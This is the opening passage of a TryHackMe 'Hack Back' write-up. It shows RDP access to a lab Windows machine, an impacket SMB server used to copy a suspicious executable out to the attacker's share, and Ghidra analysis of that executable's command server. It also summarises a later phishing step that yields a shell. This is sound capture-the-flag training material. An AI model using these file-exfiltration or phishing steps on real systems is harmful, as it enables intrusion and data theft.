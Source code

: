 ```yaml
---
title: "TryHackMe: Hack Back"
categories: [TryHackMe]
tags: [reverse engineering, ghidra, phishing, nc, blockchain, smart contract]
render_with_liquid: false
img_path: /images/tryhackme_hack_back/
image:
  path: room_image.webp
---
```


**Hack Back** started with reverse-engineering an executable file to discover an email address and a password. After that, we used these credentials to send a phishing email and obtain a shell. Lastly, we completed the room by hacking a smart contract.

[![Tryhackme Room Link](room_card.webp){: width="300" height="300" .shadow}](https://tryhackme.com/r/room/hackback){: .center }

## Act I

We start with **ACT I**, where we are tasked with investigating a suspicious file to recover an email address and a password. For this, we are provided with credentials for a Windows machine.

Using **RDP** to get a session on the machine, we locate the suspicious file at `C:\Users\Administrator\simpleServer.exe`, along with a batch script that runs it.

![Act1 Suspicious File](act1_suspicious_file.webp){: width="1200" height="900" }

To transfer the executable to our machine, we start an **SMB** server using `impacket-smbserver`.

```console
$ impacket-smbserver share . -smb2support -user jxf -pass jxf
```

After that, we copy the executable from the target to our share.

```
C:\Users\Administrator>net use \\10.11.72.22\share /user:jxf jxf
The command completed successfully.


C:\Users\Administrator>copy simpleServer.exe \\10.11.72.22\share\simpleServer.exe
        1 file(s) copied.
```

Opening the executable in **Ghidra**, we find the main function as `FUN_140001b10`.

Examining it, we see that it binds to port `1337` on all interfaces, waits to receive a connection, and when it receives a connection, it reads a command from it, prints it, and then calls `FUN_140001980` with the received command.

![Act1 Suspicious File Ghidra One](act1_suspicious_file_ghidra1.webp){: width="600" height="400" }

In the `FUN_140001980` function, we see a switch case for all the available commands received.
